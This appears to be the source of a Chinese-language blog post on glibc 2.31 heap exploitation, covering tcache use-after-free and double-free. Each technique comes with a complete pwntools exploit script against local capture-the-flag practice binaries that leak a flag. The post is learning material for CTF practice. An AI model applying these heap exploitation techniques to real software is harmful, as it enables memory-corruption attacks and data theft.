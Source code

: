 ```yaml
---
layout: post
tags: [pwn]
title: "glibc2.31 利用手法"
author: wsxk
date: 2025-3-1
comments: true
---
```


- [1. tcache](#1-tcache)
  - [1.1 uaf(use after free)](#11-uafuse-after-free)
  - [1.2 double free](#12-double-free)

# 1. tcache<br>
tcachebin的大小在0x20~0x408之间。<br>
## 1.1 uaf(use after free)<br>
常用的 tcache uaf是指，**分配一个内存A，由ptr指向；释放后ptr并没有置空；此时分配内存时再利用又分配了内存A，往其中写入机密信息；此时可皆由ptr来读出机密信息**<br>
```python
from pwn import *
context.os = 'linux'
context.arch = 'amd64'
context.log_level = 'debug'

binary_path = "./babyheap_level2.1"
libc_path = "./libc.so.6"

p = process(binary_path)


def malloc(size):
    p.recvuntil(b"[*] Function (malloc/free/puts/read_flag/quit): ")
    p.sendline(b"malloc")
    p.recvuntil(b"Size: ")
    p.sendline(str(size).encode())
    return

def free():
    p.recvuntil(b"[*] Function (malloc/free/puts/read_flag/quit): ")
    p.sendline(b"free")
    return

def read_flag():
    p.recvuntil(b"[*] Function (malloc/free/puts/read_flag/quit): ")
    p.sendline(b"read_flag")
    return

def puts():
    p.recvuntil(b"[*] Function (malloc/free/puts/read_flag/quit): ")
    p.sendline(b"puts")
    return

read_flag()
p.recvuntil(b"[*] flag_buffer = ")
chunk_addr1 = int(p.recvline().strip(b"\n"),16)
log.success(f"chunk_size:{hex(chunk_addr1)}")
read_flag()
p.recvuntil(b"[*] flag_buffer = ")
chunk_addr2 = int(p.recvline().strip(b"\n"),16)
log.success(f"chunk_size:{hex(chunk_addr2)}")

chunk_size = chunk_addr2 - chunk_addr1 -0x10
malloc(chunk_size)
free()
read_flag()#uaf
puts()

p.interactive()
```

## 1.2 double free<br>
tcache double free要想成功实施，**首先需要有一个uaf漏洞，让你在释放内存A后，仍然可以往A写内容，改变其第8~16字节的值。**<br>
```python
from pwn import *
context.log_level = 'debug'
context.os = 'linux'
context.arch = 'amd64'

binary_path = "./babyheap_level4.1"
libc_path = "./libc.so.6"

p = process(binary_path)

def malloc(size):
    p.recvuntil(b"[*] Function (malloc/free/puts/scanf/read_flag/quit): ")
    p.sendline(b"malloc")
    p.recvuntil(b"Size: ")
    p.sendline(str(size).encode())
    return

def free():
    p.recvuntil(b"[*] Function (malloc/free/puts/scanf/read_flag/quit): ")
    p.sendline(b"free")
    return

def read_flag():
    p.recvuntil(b"[*] Function (malloc/free/puts/scanf/read_flag/quit): ")
    p.sendline(b"read_flag")
    return

def puts():
    p.recvuntil(b"[*] Function (malloc/free/puts/scanf/read_flag/quit): ")
    p.sendline(b"puts")
    return

def scanf(string):
    p.recvuntil(b"[*] Function (malloc/free/puts/scanf/read_flag/quit): ")
    p.sendline(b"scanf")
    # p.recvuntil(b"allocations")
    p.sendline(string)
    return

malloc(0x2FA)
free()
scanf(b"a"*16)
free()
read_flag()
puts()
p.interactive()
```


<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>


